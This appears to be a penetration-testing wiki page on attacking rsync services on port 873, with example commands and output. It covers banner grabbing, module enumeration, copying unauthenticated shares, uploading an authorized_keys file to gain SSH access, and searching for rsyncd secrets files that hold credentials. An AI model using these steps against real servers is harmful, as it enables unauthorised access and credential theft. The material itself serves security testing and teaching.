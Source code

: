 # 873 - Pentesting Rsync

{{#include ../banners/hacktricks-training.md}}

## **Basic Information**

From [wikipedia](https://en.wikipedia.org/wiki/Rsync):

> **rsync** is a utility for efficiently [transferring](https://en.wikipedia.org/wiki/File_transfer) and [synchronizing](https://en.wikipedia.org/wiki/File_synchronization) [files](https://en.wikipedia.org/wiki/Computer_file) between a computer and an external hard drive and across [networked](https://en.wikipedia.org/wiki/Computer_network) [computers](https://en.wikipedia.org/wiki/Computer) by comparing the [modification times](<https://en.wikipedia.org/wiki/Timestamping_(computing)>)and sizes of files.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) It is commonly found on [Unix-like](https://en.wikipedia.org/wiki/Unix-like) [operating systems](https://en.wikipedia.org/wiki/Operating_system). The rsync algorithm is a type of [delta encoding](https://en.wikipedia.org/wiki/Delta_encoding), and is used for minimizing network usage. [Zlib](https://en.wikipedia.org/wiki/Zlib) may be used for additional [data compression](https://en.wikipedia.org/wiki/Data_compression),[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) and [SSH](https://en.wikipedia.org/wiki/Secure_Shell) or [stunnel](https://en.wikipedia.org/wiki/Stunnel) can be used for security.

**Default port:** 873

```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```

## Enumeration

### Banner & Manual communication

```bash
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy
NAS_Public
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```

### **Enumerating Shared Folders**

**Rsync modules** are recognized as **directory shares** that might be **protected with passwords**. To identify available modules and check if they require passwords, the following commands are used:

```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

# Example with IPv6 and alternate port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```

Be aware that some shares might not appear in the list, possibly hiding them. Additionally, accessing some shares might be restricted to specific **credentials**, indicated by an **"Access Denied"** message.

### [**Brute Force**](../generic-hacking/brute-force.md#rsync)

### Manual Rsync Usage

Upon obtaining a **module list**, actions depend on whether authentication is needed. Without authentication, **listing** and **copying** files from a shared folder to a local directory is achieved through:

```bash
# Listing a shared folder
rsync -av --list-only rsync://192.168.0.123/shared_name

# Copying files from a shared folder
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```

This process **recursively transfers files**, preserving their attributes and permissions.

With **credentials**, listing and downloading from a shared folder can be done as follows, where a password prompt will appear:

```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```

To **upload content**, such as an _**authorized_keys**_ file for access, use:

```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```

## POST

To locate the rsyncd configuration file, execute:

```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```

Within this file, a _secrets file_ parameter might point to a file containing **usernames and passwords** for rsyncd authentication.

## References

- [https://www.smeegesec.com/2016/12/pentesting-rsync.html](https://www.smeegesec.com/2016/12/pentesting-rsync.html)

{{#include ../banners/hacktricks-training.md}}

